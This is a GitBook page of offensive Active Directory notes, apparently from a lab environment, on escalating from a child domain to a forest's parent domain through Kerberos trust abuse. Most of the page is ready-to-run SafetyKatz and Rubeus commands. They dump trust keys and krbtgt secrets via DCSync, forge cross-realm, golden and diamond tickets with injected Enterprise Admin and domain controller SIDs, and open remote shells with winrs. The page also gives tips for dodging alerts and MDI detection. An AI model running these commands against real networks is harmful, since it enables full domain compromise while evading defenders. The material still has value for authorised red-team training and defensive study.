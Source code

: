```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Cross-Domain

In Active Directory environments, trust relationships govern access across domain or forest boundaries. Within a single forest, **domains are linked by default through implicit two-way trust**.

A key attribute in these trust-based escalations is `sIDHistory`, which stores the old Security Identifier (SID) when a user account is migrated between domains. While its intended use is to preserve access to legacy resources, it creates an opportunity for privilege escalation under specific conditions, particularly through **Trust Tickets** and **ExtraSID injection**.

## Trust Tickets

**Trust Tickets** exploit the Kerberos trust mechanism between domains. When a user from a child domain requests access to services in a parent domain, a **cross-realm TGT** is issued by the child’s DC. This TGT is **encrypted with a shared trust key** and presented to the parent’s DC, which validates it using the same key. By default, this key—functionally similar to a machine account password—is the NTLM hash of the trust object and rotates every 30 days.

<figure><img src="../../../.gitbook/assets/trust_keys.png" alt=""><figcaption></figcaption></figure>

If this NTLM hash is obtained (typically RC4-based), it becomes possible to **forge a cross-realm TGT**. The forged ticket can then include privileged SIDs such as **Enterprise Admins** (`-519`) in the `sIDHistory` field, effectively tricking the parent DC into recognizing the ticket as one issued to a highly privileged user. This enables unauthorized access to services and systems in the parent domain.

{% tabs %}
{% tab title="1. Trust Key & Parent SID" %}
Extract the trust key as a DA:

{% code overflow="wrap" %}
```powershell
.\SafetyKatz.exe "lsadump::trust /patch" "exit"
.\SafetyKatz.exe "lsadump::lsa /patch" "exit"
.\SafetyKatz.exe "lsadump::dcsync /user:dcorp\mcorp$" "exit"
```
{% endcode %}

Get the parent domain SID:

```powershell
Get-DomainSID -Domain moneycorp.local
```
{% endtab %}

{% tab title="2.  Cross-Realm TGT" %}
Forge the inter-realm TGT:

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe silver /service:krbtgt/<child-domain-FQDN> /rc4:<rc4> /sid:<child-domain-SID> /sids:<parent-domain-SID-519 /ldap /user:Administrator /nowrap
```
{% endcode %}
{% endtab %}

{% tab title="3. TGS" %}
Request and inject the TGS:

{% code overflow="wrap" %}
```powershell
# Request and inject the TGS
.\Rubeus.exe asktgs /service:http/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt /ticket:doI...hbA==
```
{% endcode %}

Access the parent's domain resource:

```powershell
# Access the DC of the parent DC
winrs -r:mcorp-dc.moneycorp.local cmd
```
{% endtab %}
{% endtabs %}

## ExtraSID Injection

An attacker with control over a child domain can abuse the `krbtgt` secret to forge Kerberos tickets that impersonate privileged users in a trusted parent domain. This approach builds upon the logic of cross-domain trust abuse but targets a different step in the Kerberos authentication flow, offering a **more straightforward execution path** **with a bigger impact** as the attack can access any resource on the parent domain's DC.

This method uses the **RC4 hash of the child domain's** `krbtgt` **account** to forge a standard **Golden Ticket**. The critical twist is in **preloading the ticket with high-privilege SIDs from the parent domain**—typically by setting the `sIDHistory` to include the SID of the Enterprise Admins group (`-519`). When this forged TGT is presented to the child DC to request access to a parent domain service, **the resulting inter-realm TGT is generated with the maliciously inserted `sIDHistory` intact**. The parent domain then validates and honors the ticket, effectively granting EA privileges to an attacker-controlled principal.

<figure><img src="../../../.gitbook/assets/krbtgt_hash (1).png" alt=""><figcaption></figcaption></figure>

This approach is particularly advantageous because it targets the step **before** the inter-realm TGT is created. It avoids the need to compromise the trust account itself, relying only on the child domain’s `krbtgt` secret—often easier to obtain. The result is elevated access to the parent domain, including the ability to authenticate to its DCs, which normally disallows logons from users in child domains.

{% hint style="warning" %}
**OPSEC**: The Diamond ticket is the most OPSEC-friendly option.
{% endhint %}

{% tabs %}
{% tab title="GT as Administrator" %}
Execute the Golden Ticket attack including the target SIDs using Rubeus or SafetyKatz:

{% code overflow="wrap" %}
```powershell
# Execute the GT attack including the target SIDs using SafetyKatz
.\SafetyKatz.exe "kerberos::golden /user:administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Execute the GT attack including the target SIDs using Rubeus
.\Rubeus.exe evasive-golden /user:administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt


```
{% endcode %}

Access the parent domain's DC:

```powershell
# Access the parent domain's DC
winrs -r:mcorp-dc cmd
```
{% endtab %}

{% tab title="GT as DC$" %}
However, when an Administrator from the child domain logs in interactively to the forest root DC, it generates alerts (event ID 4672), alerting on **high-privilege logons from unexpected accounts**. Instead of impersonating an administrator directly, the forged ticket can represent the **machine account of the child domain’s DC**, combined with SIDs for DCs (`-516`) and Enterprise DCs (`S-1-5-9`). This simulates **legitimate replication behavior between domains and bypasses interactive logon restrictions**. Because it mimics legitimate DC-to-DC replication, this variant often evades detections—even those from advanced defenders like MDI.

{% code overflow="wrap" %}
```powershell
# The GT attack using the machine account using SafetyKatz
.\SafetyKatz.exe "kerberos::golden /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-516,s-1-5-9 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# The GT attack using the machine account using Rubeus
.\Rubeus.exe golden /aes256:<krbtgt-aes256key> /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-516,s-1-5-9 /dc:dcorp-dc.dollarcorp.moneycorp.local /ptt

# Peform a DCSync to extract the forest root's krbtgt credentials
.\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```
{% endcode %}
{% endtab %}

{% tab title="Diamond Ticket" %}
For improved OPSEC, [Diamond Tickets](../persistence/diamond-ticket.md) can be used in place of traditional Golden Tickets. Diamond Tickets **resemble legitimate Kerberos requests and include a corresponding TGT request**, making them less suspicious.

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe diamond /krbkey:<krbtgt-aes256key> /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /tickeruserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,s-1-5-9 /createnetonly:c:\windows\system32\cmd.exe /show /ptt
```
{% endcode %}
{% endtab %}
{% endtabs %}
